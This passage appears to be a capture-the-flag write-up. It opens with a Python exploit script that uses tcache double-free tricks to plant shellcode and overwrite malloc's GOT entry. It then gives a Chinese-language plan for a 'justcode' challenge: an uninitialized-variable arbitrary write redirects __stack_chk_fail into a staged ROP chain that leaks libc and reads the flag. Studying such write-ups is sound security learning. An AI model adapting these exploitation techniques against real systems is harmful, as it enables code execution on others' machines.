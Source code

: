 ```python
# first tcachdup:                   # write shellcode(0x40 bytes) to 0x412058

add('a','a',1)
add('a','a',1)
add('a',p64(0x31),1)                # prepare a fake 0x31 chunk in 0x413300(myself local heap addr)
add('a','a',1)
add('a','a',1)
edit(4,'a'*24)                      # free a fake 0x31 chunk in 0x413300(myself local heap addr)
edit(3,p64(0)+p64(0x31)+'a'*8)      # fix the fake chunk size to 0x31 for malloc right and free it again
add(p64(0x412058),p64(0),1)         # make fake chunk fd  : 0x412058(.data) in tcache
add(p64(0),p64(0x412068),0)         # link fake chunk 4   : 0x412068(.data) to list
add(sc1,sc2,0)                      # write shellcode part 1 - 2 (16 bytes) to 0x412058
edit(4,sc3+sc4+sc5)                 # write shellcode part 3 - 5 (24 bytes) to 0x412068


# sencond tcachdup:                 # write shellcode_addr(0x412058) to 0x412008(malloc@got)

add2('a','a',1)
add2('a','a',1)
add2('a','a',1)                     # don't need prepare a fake chunk in 0x413400(myself local heap addr)
add2('a','a',1)                     # because this addr real have a 0x41 chunk
add2('a','a',1)
edit(8,'a'*24)                      # free a fake 0x41 chunk in 0x413400(myself local heap addr)
edit(7,'a'*24)                      # free it again
add2(p64(0x412008),p64(0),1)        # make fake chunk fd : 0x412008(malloc@got) in tcache
add2(p64(0),p64(0),0)
add2(p64(0x412058),'a'*8,0)         # write shellcode_addr(0x412058) to 0x412008(malloc@got)


# malloc to trigger shellcode

sla(":","1")                            
io.interactive()
```

### justcode

> x86_64:libc2.23, canary, NX

- 漏洞：sub_400CCA未初始化栈变量，sub_400C47存在栈溢出。
- 利用：比较复杂，如下

1. sub_400CCA的平级函数，sub_400C47函数栈上数据全部可控，导致再次回到sub_400CCA时，利用未初始化的变量可以实现一次任意四字节（int）地址 写 任意四字节（int）数据
2. 故利用任意地址写，写sub_400C47函数中能触发到的GOT表项为有ret的gadget，由于栈数据全部可控，即可触发ROP
3. 但由于任意地址写的地址和数据都只有4字节的限制，故劫持的函数不能是已经解析完并含有libc高地址的GOT表项，由于目标函数可以触发栈溢出，故选择stack_chk_fail为GOT表修改目标，另外程序本体中的gadget地址天然满足小于四个字节
4. 最后由于程序禁用了execve系统调用，故要使用orw的ROP去读flag。所以要先leak libc，但栈溢出空间不够，故分成三次ROP完成整个利用，每次ROP后再次回到漏洞函数，重新控制栈上数据以及触发ROP即可
